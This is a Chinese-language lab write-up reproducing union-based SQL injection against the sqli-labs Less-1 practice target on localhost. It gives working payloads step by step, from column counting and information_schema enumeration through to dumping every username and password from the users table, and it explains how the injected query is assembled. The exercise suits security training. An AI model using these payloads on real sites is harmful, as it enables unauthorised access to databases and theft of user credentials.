







# SQL注入-联合注入漏洞复现（sqli-labs Less-1）

## 一、漏洞简介
SQL注入是指攻击者通过在输入框中插入恶意SQL代码，欺骗数据库执行非授权查询的漏洞。
联合注入利用 UNION SELECT 语句将查询结果合并回显到页面，适用于页面有数据回显的场景。

**影响版本**：PHP + MySQL（未使用参数化查询的场景）

**漏洞危害**：数据库敏感信息泄露、数据篡改、甚至获取服务器控制权


## 二、实验环境

| 组件 | 版本/说明 |
|:---|:---|
| 集成环境 | PHPStudy（Apache + MySQL） |
| 靶场 | sqli-labs（Less-1） |
| 浏览器 | Chrome / Edge |


## 三、漏洞复现步骤

### 3.1 寻找注入点

访问 Less-1：### 3.1 寻找注入点
`http://127.0.0.1/sqli-labs/Less-1/?id=1`，页面正常回显。

在参数后添加单引号，页面返回数据库报错，确认存在SQL注入。




### 3.2 判断字段数
使用 ORDER BY 判断字段数，逐个去尝试直到`order by 4` 报错，说明共3个字段。




### 3.3 确定回显位
`?id=-1' union select 1,2,3--+`，页面回显数字2和3，说明回显位置在2，3的位置。




### 3.4 获取数据库名
`?id=-1' union select 1,2,database()--+`（因为明回显位置在2，3的位置所以查询的名字在2，3号位置都可以），回显`security`。




### 3.5 获取所有表名
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
（这里的各个函数作用：
information_schema 是MySQL自带的元数据库，存储了所有数据库的结构信息，information_schema是渗透测试的核心，只要拿到了它，就等于拿到了整个数据库的“目录”。

information_schema.tables 表记录了所有数据库的所有表

table_schema='security' 过滤出security数据库下的表

group_concat(table_name) 把多个表名拼接成一个字符串，方便查看）
回显表名列表：`emails,referers,uagents,users`




### 3.6 获取列名
原理同步骤3.5，只是把查询目标从 information_schema.tables 换成了 information_schema.columns。
回显列名：`id,username,password`




### 3.7 获取数据
?id=-1' union select 1,2,group_concat(username,0x3a,password) from users--+
（这里的各个函数作用：

0x3a 是冒号 : 的十六进制编码，用来分隔用户名和密码

group_concat 把多行结果合并成一行）

成功获取所有用户名和密码。



四、漏洞原理分析

```sql
-- 正常SQL语句（Less-1源码）：
SELECT * FROM users WHERE id='$id' LIMIT 0,1

-- 攻击者输入：-1' union select 1,2,database()--+
-- 拼接后SQL：
SELECT * FROM users WHERE id='-1' union select 1,2,database()--+' LIMIT 0,1

-- 关键点：
-- 1. 单引号闭合前面的SQL语句
-- 2. id=-1让前面的SELECT查不出数据
-- 3. UNION SELECT合并查询结果
-- 4. --+注释掉后面的LIMIT
